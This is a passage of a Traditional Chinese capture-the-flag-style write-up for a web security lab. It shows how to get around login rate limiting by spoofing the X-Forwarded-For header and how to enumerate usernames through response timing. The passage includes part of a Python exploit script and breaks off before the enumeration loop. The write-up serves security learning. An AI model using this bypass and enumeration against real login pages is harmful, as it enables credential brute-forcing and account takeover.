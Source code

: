 1. 嘗試輸入任意帳號密碼，回應 `Invalid username or password.`
2. 嘗試多次登入後發現 `You have made too many incorrect login attempts. Please try again in 30 minute(s).`
3. 透過修改 HTTP header `X-Forwarded-For` 繞過
4. 嘗試透過判斷回應時間枚舉出帳號，在此 Lab 中，需枚舉兩個欄位，分別是 `X-Forwared-For` 的 IP，以及使用者名稱。另外，密碼欄位需要使用很長的長度，以增加回應時間的差異性。由於此 Lab 需枚舉兩個欄位，只有專業版的 Burp Suite 才能做到，所以只好自己寫 Exploit。
5. 枚舉帳號密碼的 Exploit 如下：
   :::code-group

    ```Python:line-numbers [enum-username.py]
    #!/usr/bin/python
    import requests

    cookies = {
        'session': 'your-session-cookie',
    }

    headers = {
        'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'accept-language': 'en-US,en;q=0.9',
        'cache-control': 'max-age=0',
        'content-type': 'application/x-www-form-urlencoded',
        'origin': 'https://your-lab-subdomain.web-security-academy.net',
        'priority': 'u=0, i',
        'referer': 'https://your-lab-subdomain.web-security-academy.net/login',
        'sec-ch-ua': '"Chromium";v="137", "Not/A)Brand";v="24"',
        'sec-ch-ua-mobile': '?0',
        'sec-ch-ua-platform': '"macOS"',
        'sec-fetch-dest': 'document',
        'sec-fetch-mode': 'navigate',
        'sec-fetch-site': 'same-origin',
        'sec-fetch-user': '?1',
        'upgrade-insecure-requests': '1',
        'user-agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36',
        'X-Forwarded-For': '8.8.8.8',
    }

    data = {
        'username': 'wiener',
        'password': 'peter'*200,
    }

    response = requests.post(
        'https://your-lab-subdomain.web-security-academy.net/login',
        cookies=cookies,
        headers=headers,
        data=data,
        verify=False,
    )

    usernames = open('usernames.txt', 'r').read().splitlines()
    passwords = open('passwords.txt', 'r').read().splitlines()
    output = open('output.csv', 'w')
